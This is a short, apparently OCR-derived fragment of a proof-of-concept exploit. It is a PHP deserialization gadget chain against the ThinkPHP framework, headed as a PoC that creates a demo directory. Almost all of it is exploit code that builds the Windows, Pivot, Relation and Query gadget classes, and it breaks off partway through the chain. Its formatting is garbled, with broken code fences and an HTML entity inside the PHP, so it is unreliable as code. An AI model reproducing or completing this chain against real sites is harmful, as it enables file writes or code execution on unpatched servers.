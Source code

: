 ![image](img/97eb01ebb71fca715f09480cb857fc50.png)

### poc 创建demo目录

```
<?php
namespace think\process\pipes;
use think\model\Pivot;
class Pipes{

}

class Windows extends Pipes{

private $files = [];

```
function __construct(){
	$this-&gt;files = [new Pivot()];
} 
```

}

namespace think\model;#Relation

use think\db\Query;

abstract class Relation{

protected $selfRelation;

protected $query;

function __construct(){

$this->selfRelation = false;

$this->query = new Query();#class Query

}

}

namespace think\model\relation;#OneToOne HasOne
```